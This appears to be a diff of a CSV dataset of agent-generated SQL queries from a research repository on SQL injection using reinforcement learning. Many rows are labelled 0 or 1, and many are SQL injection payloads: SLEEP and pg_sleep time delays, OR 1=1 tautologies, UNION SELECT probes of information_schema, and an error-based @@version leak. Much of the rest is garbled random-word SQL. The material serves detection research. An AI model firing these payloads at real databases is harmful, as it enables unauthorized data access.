

Before and after one commit to Vaishika05/SQLi-Using-RL, a CSV file: dqnAgent_with_predictions.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; removed rows and columns are numbered as before the commit, all else as after; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/dqnAgent_with_predictions.csv
+++ b/dqnAgent_with_predictions.csv
-A24 (Generated Queries): …* FROM hearing WHERE Price NOT BETWEEN 10 AND 20 AND SLEEP(5)
+A24 (Generated Queries): …* FROM copy WHERE year NOT LIKE '[forget]%' UNION SELECT *
-row 65: INSERT INTO standard ( pond, real, tune ) VALUES ( 'choice', 'sudden', 'tax' ) AND 1=CONVERT(int, (SELECT @@version)) | 0
-row 66: 1 ) ) or 9643 = ( select count ( * ) from domain.domains as t1,domain.columns as t2,domain.tables as t3 ) and ( ( 5888 = 5888 OR 'a'='a' | 1
-row 67: SELECT shade ( s ) FROM yard OR 'a'='a' | 0
-row 68: organizar AND SLEEP(5) | 1
-A25 (Generated Queries): mirko AND SLEEP(5)
+A25 (Generated Queries): 0om7rera AND SLEEP(5)
-A26 (Generated Queries): 1" or 4915 = ( select count ( * ) from domain.domains as t1,domain.columns as t2,domain.tables as t3 ) -- OR 1=1
+A26 (Generated Queries): 1" ) ) as nbdc where 4444 = 4444 union all select null,null--
-row 71: SELECT * FROM feature WHERE taste BETWEEN '1996-07-01' AND '1996-07-31' OR 313d31 | 0
-row 72: 10650 OR 1=1 -- | 0
-row 73: SELECT loud, fair+ ', ' + familiar+ ' ' + lunch+ ', ' + fence AS captured FROM organized | 0
-row 74: SELECT * FROM language FETCH FIRST 3 ROWS ONLY OR 1=1 | 0
-row 75: bo8iner4 | 0
-row 76: SELECT * FROM anywhere WHERE one NOT LIKE '[attack]%' OR 1=1 | 0
-row 77: SELECT * FROM figure WHERE ear = 'mean' LIMIT 3 UNION%20SELECT%20%2A | 0
-row 78: 4.22605E+15 UNION SELECT column_name FROM (SELECT * FROM information_schema.tables) AS sub | 0
-row 79: SELECT AVG ( movie ) FROM whose SELECT SUM ( rain ) OR 1=1 -- | 0
-row 80: SELECT somewhere,list,up FROM log LEFT JOIN Orders ON income.pieID = later.disappear ORDER BY summer.coast OR 1=1 | 0
-A27 (Generated Queries): 1 ) ) union all select null,null,null-- UNION SELECT * FROM information_schema.tables
+A27 (Generated Queries): 1" ) ) as maxe where 5883 = 5883 union all select null,null,null,null,null,null,null,null,null# OR 'a'='a'
-row 82: select pg_sleep ( 5 ) and 'rpka' = 'rpka AND SLEEP(5) | 1
```
Also changed, not shown: 6 added rows, 53 removed rows and 37 edited cells elsewhere in this file, simpleAgent_with_predictions.csv, 16 other files.
